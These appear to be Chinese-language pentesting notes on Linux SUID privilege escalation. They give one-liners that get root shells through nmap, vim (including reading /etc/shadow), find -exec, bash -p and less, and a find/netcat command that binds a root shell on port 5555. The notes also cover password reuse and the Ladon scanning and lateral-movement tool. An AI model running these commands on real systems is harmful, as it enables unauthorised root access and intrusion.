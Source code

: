 - bash脚本文件的SUID标志位是无效的

- `ls -lh /usr/bin/find` 查看find文件是否有s标志位

- 已知的可用来提权的linux可行性的文件列表如下：

    ```bash
    - Nmap：
    	- namp -i；!sh  直接获得rootshell
    	- exploit/unix/local/setuid_nmap  
    	- :shell
    - Vim：
    	- Vim的主要用途是用作文本编辑器。 但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件
    	- vim /etc/shadow
    	- # Press ESC key
    	- :set shell=/bin/sh
    - find：
    	- touch test；find test -exec whoami  \;   whoami就会以root身份运行
    	- 可以利用nc来反弹rootshell，find test -exec netcat -lvp 5555 -e /bin/sh \;
    - Bash：bash -p
    - more
    - Less：less file，!/bin/sh
    - nano
    - cp
    - pip
    ```

### **Sudo提权**

### **Linux配置错误提权**

### **定时任务提权**

### **找存储的明文用户名，密码**

### 其他

- **密码复用提权：**我们如果在主机上找到了其他应用或数据库的密码，那么很有可能root用户也用该密码。那么就可以尝试一下 su root 来提权了。

- **第三方服务提权**

- - 我们还可以查看主机上其他的第三方服务，利用第三方服务的漏洞可以拿到主机的      root      权限。比如如果主机的mysql或tomcat是用root权限启动的，而我们又通过漏洞拿到了mysql或tomcat的权限，就相当于获得了root的权限。

## 常用工具

### Ladon.exe

> https://github.com/k8gege/Ladon
>
> http://k8gege.org/Ladon/ wiki

- 介绍
    - Ladon一款用于大型网络渗透的多线程插件化综合扫描神器，含端口扫描、服务识别、网络资产、密码审计、高危漏洞检测以及一键GetShell，支持批量A段/B段/C段以及跨网段扫描，支持URL、主机、域名列表扫描。
    - 9.0版本内置122个功能模块,外部模块20个,通过多种协议以及方法快速获取目标网络存活主机IP、计算机名、工作组、共享资源、网卡地址、操作系统版本、网站、子域名、中间件、开放服务、路由器、数据库等信息，多协议探测操作系统版本信息，漏洞检测包含MS17010、SMBGhost、Weblogic、ActiveMQ、Tomcat、Struts2系列等，密码审计17种含数据库(Mysql、Oracle、MSSQL)、FTP、SSH、VNC、Windows(LDAP、SMB/IPC、NBT、WMI、SmbHash、WmiHash、Winrm)、BasicAuth、Tomcat、Weblogic、Rar、网络摄像头、路由器等，横向移动远程执行命令包含(smbexec/wmiexe/psexec/atexec/sshexec/jspshell),Web指纹识别模块可识别86种（Web应用、中间件、脚本类型、页面类型）等，可高度自定义插件POC支持.NET程序集、DLL(C#/Delphi/VC)、PowerShell等语言编写的插件,支持通过配置INI批量调用任意外部程序或命令，EXP生成器可一键生成漏洞POC快速扩展扫描能力。
    - Ladon支持Cobalt Strike插件化扫描快速拓展内网进行横向移动。
